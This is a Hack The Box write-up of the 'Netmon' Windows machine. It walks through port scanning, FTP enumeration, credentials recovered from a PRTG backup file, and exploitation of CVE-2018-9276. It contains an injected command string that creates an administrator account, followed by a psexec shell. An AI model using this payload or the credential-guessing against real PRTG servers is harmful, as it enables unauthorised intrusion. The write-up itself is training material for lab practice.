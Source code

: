# Netmon Writeup - by Thammanant Thamtaranon  
- Netmon is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -p- 10.10.10.152
```
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 80 (HTTP)  
  - 135 (MSRPC)  
  - 139 (NETBIOS)  
  - 445 (SMB)  
  - 5985 (HTTP)

## Scanning & Enumeration  
- We then connected to FTP:  
```bash
ftp 10.10.10.152
```
![FTP](FTP.png)  
- We navigated to the Users directory. Access to the Administrator directory was denied, but in the Public Desktop we found `user.txt`, capturing the user flag.  
- We navigated to `ProgramData\Paessler\PRTG Network Monitor` and downloaded all three configuration files.  
![Config](Config.png)  
- In `PRTG Configuration.old.bak` we found credentials.  
![Credential](Credential.png)  
- Using the credentials, we attempted login at `http://10.10.10.152` as `prtgadmin:PrTg@dmin2018`. The password was incorrect, so we iterated through 2019, 2020, etc., and successfully logged in at 2019.  
![Admin](Admin.png)  
- The PRTG version was identified as `18.1.37.13946`. We searched for known CVEs for this version.

## Exploitation  
- We found **CVE-2018-9276**, an OS command injection vulnerability.  
- This vulnerability allows an attacker with administrative access to the PRTG web console to execute arbitrary commands during sensor or notification management tasks.  
- We created a new notification under "Execute Program" and added the following parameter:  `;net user tester Password123! /add;net localgroup administrators tester /add` 
- After saving and sending a test notification, we verified the command execution in the logs.  
![Log](Log.png)  
- We then connected to SMB as tester:
```bash
smbclient -L //10.10.10.152 -U tester
```
![SMB](SMB.png)  
- Next, we used `impacket-psexec` to spawn a shell on the Windows host:  
```bash
impacket-psexec tester@10.10.10.152
```
![Shell](Shell.png)  
- Finally, we navigated to `Users/Administrator/Desktop` and grabbed the root flag.
